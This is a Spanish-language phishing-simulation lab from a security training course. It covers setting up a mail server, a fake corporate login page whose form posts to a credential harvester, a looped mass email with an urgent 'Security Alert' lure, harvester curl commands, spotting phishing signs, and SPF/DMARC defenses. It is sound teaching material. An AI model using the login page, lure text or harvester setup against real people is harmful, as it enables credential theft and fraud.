

::: tip 🧪 Lab Interactivo Disponible
**¿Quieres practicar esto en tu navegador?** Tenemos una versión interactiva con terminal simulada, comandos reales y tracking de progreso.

👉 [**Abrir Lab Interactivo — Sin Docker**](/CyberDefense-Pro-Network/labs-interactive/lab-social-01.html)
:::

# 🎭 Lab social-01: Ingeniería Social — Campañas de Phishing

> Diseña y ejecuta campañas de phishing controladas en un entorno seguro, analizando la efectividad de diferentes vectores y aprendiendo a defender contra ellos.

## 📊 Diagrama del Escenario

```mermaid
graph TB
    subgraph "🔴 EQUIPO OFENSIVO"
        A[Atacante<br/>10.0.8.100]
    end

    subgraph "📧 INFRAESTRUCTURA DE PHISHING"
        B[Mail Server<br/>10.0.8.10]
        C[Landing Page<br/>10.0.8.20]
        D[Credential Harvester<br/>10.0.8.30]
    end

    subgraph "🎯 VÍCTIMAS SIMULADAS"
        E[Empleado 1<br/>alice@corp.local]
        F[Empleado 2<br/>bob@corp.local]
        G[Director<br/>ceo@corp.local]
    end

    A -->|"Configurar campaña"| B
    B -->|"Enviar emails"| E
    B -->|"Enviar emails"| F
    B -->|"Enviar emails"| G
    E -->|"Hacer clic"| C
    C -->|"Ingresar creds"| D

    style A fill:#ff6b6b
    style D fill:#ffd93d
```

## 🎯 Objetivos de Aprendizaje

Al completar este lab podrás:

- [ ] Configurar un mail server para campañas de phishing
- [ ] Crear landing pages falsas convincentes
- [ ] Implementar credential harvester
- [ ] Analizar métricas de campaña (tasa de click, tasa de credenciales)
- [ ] Identificar señales de phishing
- [ ] Implementar defensas contra phishing

## ⏱️ Información del Lab

| Campo | Valor |
|-------|-------|
| **Dificultad** | 🟡 Intermedio |
| **Tiempo estimado** | 60 minutos |
| **XP en juego** | 300 puntos |
| **Herramientas** | Python, curl, mailutils, PHP |
| **Flags** | 6 |

## ⚠️ AVISO ÉTICO

> **Este lab es exclusivamente educativo.** Las técnicas aquí demostradas solo deben usarse en:
> - Entornos de laboratorio controlados
> - Campañas de phishing autorizadas por la organización
> - Pruebas de seguridad con permiso explícito
>
> **El uso malicioso de estas técnicas es un delito.**

## 🚀 Inicio Rápido

```bash
# Levantar infraestructura de phishing
cd labs/intermedio/social-01
docker compose up -d

# Verificar servicios
docker compose ps

# Abrir panel de control
# http://localhost:8080
```

## 📋 Ejercicios

### Ejercicio 1: Configurar Mail Server (40 XP)

**Objetivo:** Configurar un servidor de correo para envío de emails de phishing.

```bash
# Verificar mail server
docker compose exec mailserver postfix status

# Configurar dominio
postconf -e "myhostname = phishing-sim.local"
postconf -e "mydomain = phishing-sim.local"
postfix reload

# Enviar email de prueba
echo "Test email body" | mail -s "Test Subject" -r "admin@phishing-sim.local" victim@phishing-sim.local

# Verificar cola
mailq
```

**Preguntas:**
1. ¿Qué protocolo usa el mail server? `[___]`
2. ¿Cómo configurarías SPF/DKIM? `[___]`
3. ¿Qué haría un email de phishing convincente? `[___]`

**Flag:** `[___]`

---

### Ejercicio 2: Crear Landing Page de Phishing (50 XP)

**Objetivo:** Crear una página de login falsa que parezca legítima.

```bash
# Crear landing page (ya disponible en el servidor)
# http://10.0.8.20/

# Analizar la landing page
curl http://10.0.8.20/
curl -I http://10.0.8.20/

# Crear variante propia
cat > /var/www/html/phishing/custom.html << 'HTML'
<!DOCTYPE html>
<html>
<head>
    <title>Corporate Portal - Login</title>
    <style>
        body { font-family: Arial; background: #f5f5f5; }
        .login-box { max-width: 400px; margin: 100px auto; padding: 30px;
                     background: white; border-radius: 8px; box-shadow: 0 2px 10px rgba(0,0,0,0.1); }
        input { width: 100%; padding: 12px; margin: 8px 0; border: 1px solid #ddd; border-radius: 4px; }
        button { width: 100%; padding: 12px; background: #0066cc; color: white; border: none;
                 border-radius: 4px; cursor: pointer; font-size: 16px; }
        .logo { text-align: center; margin-bottom: 20px; }
    </style>
</head>
<body>
    <div class="login-box">
        <div class="logo">
            <h2>🏢 CorpNet Portal</h2>
            <p>Sign in with your corporate account</p>
        </div>
        <form action="/harvest" method="POST">
            <input type="email" name="email" placeholder="Email" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Sign In</button>
        </form>
        <p style="text-align:center;margin-top:15px;font-size:12px;color:#666;">
            Protected by CorpNet Security
        </p>
    </div>
</body>
</html>
HTML
```

**Preguntas:**
1. ¿Qué elementos hacen una landing page creíble? `[___]`
2. ¿Qué señales delatarían un phishing? `[___]`
3. ¿Cómo verificarías la legitimidad de un email? `[___]`

**Flag:** `[___]`

---

### Ejercicio 3: Credential Harvester (50 XP)

**Objetivo:** Implementar un sistema que capture credenciales ingresadas.

```bash
# El credential harvester está corriendo en 10.0.8.30
# Analizar el endpoint
curl -X POST http://10.0.8.30/harvest -d "email=alice@corp.local&password=test123"

# Ver credenciales capturadas
curl http://10.0.8.30/credentials

# Simular víctima
curl -X POST http://10.0.8.20/harvest \
  -d "email=alice@corp.local&password=Summer2024!" \
  -H "Referer: http://10.0.8.20/" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

# Verificar en el panel
curl http://10.0.8.30/credentials
```

**Preguntas:**
1. ¿Qué datos captura el harvester? `[___]`
2. ¿Qué metadatos del request son útiles? `[___]`
3. ¿Cómo protegerías las credenciales capturadas? `[___]`

**Flag:** `[___]`

---

### Ejercicio 4: Simular Campaña Completa (60 XP)

**Objetivo:** Ejecutar una campaña de phishing simulada y analizar resultados.

```bash
# Enviar emails a víctimas simuladas
for victim in alice@phishing-sim.local bob@phishing-sim.local; do
    echo "Dear employee,

We detected unusual activity on your account. Please verify your credentials immediately.

Click here: http://10.0.8.20/

Best regards,
IT Security Team" | mail -s "⚠️ Security Alert: Action Required" \
    -r "security@phishing-sim.local" "$victim"
done

# Simular clicks de víctimas
curl -X POST http://10.0.8.30/harvest -d "email=alice@phishing-sim.local&password=Password123"
curl -X POST http://10.0.8.30/harvest -d "email=bob@phishing-sim.local&password=Summer2024"

# Analizar métricas
curl http://10.0.8.30/metrics
```

**Métricas de campaña:**

| Métrica | Valor |
|---------|-------|
| Emails enviados | `[___]` |
| Emails abiertos | `[___]` |
| Clicks en link | `[___]` |
| Credenciales capturadas | `[___]` |
| Tasa de click | `[___]` |
| Tasa de conversión | `[___]` |

**Flag:** `[___]`

---

### Ejercicio 5: Análisis de Phishing (50 XP)

**Objetivo:** Identificar señales de phishing en emails recibidos.

```bash
# Revisar headers del email
cat /var/mail/alice | head -50

# Analizar cabeceras
# Deberías ver:
# - From: security@phishing-sim.local (no es el dominio real)
# - Return-Path: diferente del From
# - Link: http://10.0.8.20 (IP interna, no dominio legítimo)
# - No hay SPF/DKIM

# Verificar URL
curl -I http://10.0.8.20/
# Certificate: self-signed
# Server: nginx (diferente al real)

# Buscar indicadores
grep -i "urgent\|verify\|click here\|account\|password" /var/mail/alice
```

**Señales de phishing identificadas:**

| # | Señal | Detalle |
|---|-------|---------|
| 1 | `[___]` | `[___]` |
| 2 | `[___]` | `[___]` |
| 3 | `[___]` | `[___]` |

**Flag:** `[___]`

---

### Ejercicio 6: Defensa contra Phishing (50 XP)

**Objetivo:** Implementar protecciones y documentar mejores prácticas.

```bash
# Configurar SPF
echo "v=spf1 ip4:10.0.8.10 -all" > /etc/postfix/sponsored.txt

# Configurar DMARC
echo "v=DMARC1; p=reject; rua=mailto:dmarc@phishing-sim.local" > /etc/postfix/dmarc.txt

# Analizar headers para detectar phishing
# Buscar: mismatches en From/Return-Path, sin DKIM, URLs sospechosas
```

**Crea defensa documentada** (`defense_report.md`):

```markdown
# Defensa contra Phishing

## Señales de Phishing
1. [___]
2. [___]
3. [___]

## Verificación de Emails
1. [___]
2. [___]
3. [___]

## Configuración Técnica
- SPF: [___]
- DKIM: [___]
- DMARC: [___]

## Capacitación de Usuarios
1. [___]
2. [___]
3. [___]

## Respuesta a Incidentes
1. [___]
2. [___]
3. [___]
```

**Flag:** `[___]`

## 🔍 Flujo de una Campaña



## 🏁 Validación

```bash
./scripts/validate.sh
```

## 📝 Criterios de Éxito

| Ejercicio | Criterio | Puntos | Estado |
|-----------|----------|--------|--------|
| 1 | Mail server configurado | 40 | ⬜ |
| 2 | Landing page funcional | 50 | ⬜ |
| 3 | Harvester capturando | 50 | ⬜ |
| 4 | Campaña simulada | 60 | ⬜ |
| 5 | Señales identificadas | 50 | ⬜ |
| 6 | Defensa documentada | 50 | ⬜ |
| **Total** | | **300** | ⬜ |

## 🎓 Señales de Phishing

```
┌─────────────────────────────────────────────────────┐
│              SEÑALES DE PHISHING                     │
├─────────────────────────────────────────────────────┤
│ 📧 EMAIL                                           │
│ • Remitente sospechoso o spoofed                    │
│ • Urgencia excesiva ("¡AHORA O NUNCA!")             │
│ • Errores ortográficos                              │
│ • Solicitudes inesperadas de información            │
│                                                     │
│ 🔗 LINKS                                           │
│ • URL no coincide con el dominio real               │
│ • URL acortada (bit.ly, tinyurl)                    │
│ • HTTPS con certificado auto-firmado                │
│ • IP en lugar de dominio                            │
│                                                     │
│ 📎 ARCHIVOS                                         │
│ • Adjuntos inesperados (.exe, .js, .vbs)            │
│ • Archivos comprimidos con contraseña               │
│ • Macros habilitadas                                │
│                                                     │
│ 🎯 COMPORTAMIENTO                                   │
│ • Solicita credenciales por email                   │
│ • Pide transferencia de dinero                      │
│ • Amenaza con consecuencias si no actúas            │
└─────────────────────────────────────────────────────┘
```

## 🚨 Solución (Solo después de intentar)

<details>
<summary>🔓 Click para ver la solución completa</summary>

### Mail Server
```
postconf -e "myhostname = phishing-sim.local"
postfix reload
```

### Landing Page
- Formulario con action="/harvest"
- Diseño profesional con CSS limpio
- Logo corporativo ficticio

### Credential Harvester
```
POST /harvest → credentials.json
GET /credentials → lista de credenciales
```

### Señales de Phishing
1. From: security@phishing-sim.local (dominio falso)
2. Link: http://10.0.8.20 (IP interna)
3. Urgencia: "Verify immediately"
4. Sin SPF/DKIM/DMARC

### Defensa
- SPF: `v=spf1 ip4:legit-server -all`
- DMARC: `v=DMARC1; p=reject`
- Capacitación: no hacer clic en links sospechosos

</details>

---

*Lab creado para CyberDefense Labs — Nivel Intermedio*
